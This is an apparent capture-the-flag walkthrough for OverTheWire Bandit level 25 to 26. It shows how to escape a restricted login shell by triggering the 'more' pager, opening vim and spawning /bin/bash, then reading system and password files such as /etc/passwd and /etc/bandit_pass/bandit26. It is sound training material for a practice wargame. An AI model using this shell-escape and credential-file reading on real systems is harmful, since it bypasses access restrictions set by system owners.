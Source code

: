 ## Bandit level 25 ---> level 26

## Level Goal 
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

    NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.
## Solution
```
First we should find out what shell is in level 26
bandit25@melinda:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

#so that means that shell in level 26 runs /sometext every time we r login, let find it out
bandit25@melinda:~$ cat /usr/bin/showtext 
#!/bin/sh
more ~/text.txt    #!!!NOTICE that script runs more comand
exit 0
```
# !!!NOTICE that script runs `more` comand

`lets try to login with installed sshkey`

```
bandit25@melinda:~$ ls
bandit26.sshkey

$ scp -P 2220 bandit25@bandit.labs.overthewire.org:bandit26.sshkey 
```
So as you can see after login we instantly disconnected, In this case we should use `more` comand features make your terminal window so you see just 1-2 line of code
then try again `ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220`
Now you can clearly see that more comand activates
!Additional knowledge ```you can use bash comands in vim```
type 'v' then vi -> to open vim
after vim opens type `:set shell=/bin/bash` this comand will set default shell for level 26 `/bin/bash/sometext` to `/bin/bash`
then `:shell` to open shell
now you have access to level 26 to passwd type `cat /etc/bandit\_pass/bandit26`
        
